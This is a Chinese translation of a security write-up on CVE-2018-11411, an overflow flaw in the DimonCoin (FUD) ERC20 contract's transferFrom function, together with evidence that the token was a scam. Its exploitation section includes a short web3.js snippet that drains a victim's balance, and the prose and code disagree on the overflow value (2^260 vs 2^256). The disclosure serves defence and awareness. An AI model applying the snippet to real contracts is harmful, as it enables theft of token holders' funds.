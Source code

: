 # 迪蒙币(FUD)，ERC20 代币，允许攻击者窃取所有受害者的余额(CVE-2018–11411)

> 原文：<https://medium.com/coinmonks/dimoncoin-fud-erc20-token-allows-attackers-to-steal-all-victims-balances-cve-2018-11411-ba9a320604f9?source=collection_archive---------7----------------------->

# 摘要

我发现了一个关于迪蒙币(FUD)的智能合约的漏洞，一个以太坊 ERC20 令牌([CVE-2018–11411](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11411))[1]。该漏洞与 UselessEthereumToken 的漏洞[2，3]完全相同。迪蒙币令牌也有同样易受攻击的功能，即 UET 令牌中的转移而来的*。因此，攻击者可以通过利用该功能窃取受害者帐户中的所有余额。经过更多的调查，我发现迪蒙币(FUD)是一个骗局。FUD 代币有多个智能合约，其中一个已经被甩了。我在不同的合同中发现了漏洞，但还没有被丢弃。在本文中，我将解释漏洞和 FUD 令牌的细节。*

# 细节

如上所述，该漏洞与 UselessEthereumToken([CVE-2018–10468](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10468))【3】的漏洞相同。如果你看了《[*【UselessEthereumToken(UET)】，ERC20 token，允许攻击者窃取所有受害者余额(CVE-2018–10468)*](/coinmonks/uselessethereumtoken-uet-erc20-token-allows-attackers-to-steal-all-victims-balances-543d42ac808e)》这篇文章，对理解它会有帮助[2]。

![](img/2abc1bdca59871142542c35d1c1ad824.png)

Figure 1\. Code of transferFrom function in FUD smart contract

图一。显示了易受攻击的 *transferFrom* 函数。针对 ERC20 短地址攻击的验证被移至修饰符 *onlyPayloadSize* 。这是唯一的变化，其他部分与 UET 令牌中函数的*转换完全相同。*

如你所见，红框中的代码是错误的。根据代码，当`balances[_to] + _value`溢出时，用户可以转移比地址`_from`更多的余额。正确的代码应该如下所示:

```
bool sufficientFunds = fromBalance **>=** _value;
bool sufficientAllowance = allowance **>=** _value;
bool overflowed = balances[_to] + _value > balances[_to];if (sufficientFunds && sufficientAllowance && **overflowed**) {
```

## 剥削

攻击者所要做的就是找到一个目标帐户和一个值来引起溢出。如果目标账户余额为`0xaaaa`，该值应大于`pow(2,260)-0xaaaa`。如果值正好是`pow(2,260)-0xaaaa`，那么目标的所有余额都被转移到攻击者的账户。我的漏洞利用代码的一部分如下:

```
max = web3.utils.toBN('0x10000000000000000000000000000000000000000000000000000000000000000');
v_bal=web3.utils.toBN(await FUD.methods.balanceOf(victim).call());
FUD.methods.transferFrom(attacker, victim, max.sub(v_bal))
           .send({from:attacker, gas:1000000, gasPrice:1});
```

# 骗局

迪蒙币(FUD)已经被认为是一个骗局[4]。有多个 FUD 令牌的智能合约。我认为开发者创造了几个智能合同来隐藏他们的欺骗。合同中，一个是我找到的漏洞合同[5]，另一个是疑似开发商甩的合同[6]。在倾销合同中，一些账户拥有的代币多于总供应量[7]。

![](img/3d3efd8f27fa24b7696919a5c4447369.png)

Figure 2\. All top 10 holders have tokens more than 1000000% of total supply

开发人员已经使用这两个合同地址在 bitcointalk 中公布了 FUD 令牌[8]。广告文章被翻译成几种语言，并且有 6 个翻译副本刊登了易受攻击的合同。

> -斯堪地那维克语/丹麦语:[https://bitcointalk.org/index.php?topic=2249616](https://bitcointalk.org/index.php?topic=2249616)
> -德语:[https://bitcointalk.org/index.php?topic=2254901](https://bitcointalk.org/index.php?topic=2254901)
> -意大利语:[https://bitcointalk.org/index.php?topic=2248634.0](https://bitcointalk.org/index.php?topic=2248634.0)
> -俄语:[https://bitcointalk.org/index.php?topic=2255885](https://bitcointalk.org/index.php?topic=2255885)
> -汉语:[https://bitcointalk.org/index.php?topic=2250544](https://bitcointalk.org/index.php?topic=2250544)
> -韩语:[https://bitcointalk.org/index.php?topic=2292406](https://bitcointalk.org/index.php?topic=2292406)

开发商已经拿走了他们的证据。官方网站、Telegram、Twitter 和 Github 页面关闭。只有脸书·佩吉还活着。

# 结论

我确信迪蒙币(FUD)是一个骗局。开发人员在没有合理原因的情况下创建了多个合同，一个被丢弃，另一个有漏洞。此外，与开发商的沟通渠道也被取消了。它已经广为人知，这是一个骗局，但仍有一些人进行交易的合同。所以，应该让更多的人知道。交易未经验证的硬币时请小心。

# 参考

*   [1][http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11411](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11411)
*   [2][https://medium . com/coin monks/uselessethereumtoken-uet-ERC 20-token-allows-attakers-to-steak-all-victims-balances-543d 42 AC 808 e](/coinmonks/uselessethereumtoken-uet-erc20-token-allows-attackers-to-steal-all-victims-balances-543d42ac808e)
*   [3]http://cve.mitre.org/cgi-bin/cvename.cgi?[name=CVE-2018-10468](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10468)
*   [https://bitcointalk.org/index.php?topic=2722276.0](https://bitcointalk.org/index.php?topic=2722276.0)
*   [5] [https://etherscan.io/token/0xf084d5bc3e35e3d903260267ebd545c49c6013d0](https://etherscan.io/token/0xf084d5bc3e35e3d903260267ebd545c49c6013d0)
*   [6] [https://etherscan.io/token/0xDe39E5A1B0eEB3Afe717D6d011CaE88D19451e](https://etherscan.io/token/0xDe39E5E5a1B0eEB3Afe717D6d011CaE88D19451e#balances)
*   [7] [https://etherscan.io/token/0xDe39E5E5a1B0eEB3Afe717D6d011CaE88D19451e#balances](https://etherscan.io/token/0xDe39E5E5a1B0eEB3Afe717D6d011CaE88D19451e#balances)
*   [8] [https://bitcointalk.org/index.php?主题:2247833.0](https://bitcointalk.org/index.php?topic=2247833.0)
*   [9] [http://dimoncoin.org](http://dimoncoin.org/cgi-sys/defaultwebpage.cgi)
*   [10] [https://t.me/DimonCoinFUDD](https://t.me/DimonCoinFUDD)
*   [11] [https://twitter.com/DimonCoin](https://twitter.com/DimonCoin)
*   [12] [https://github.com/dimoncoin/DimonCoin](https://github.com/dimoncoin/DimonCoin)
*   [13] [https://www.facebook.com/DimonCoin-120112948666326/](https://www.facebook.com/DimonCoin-120112948666326/)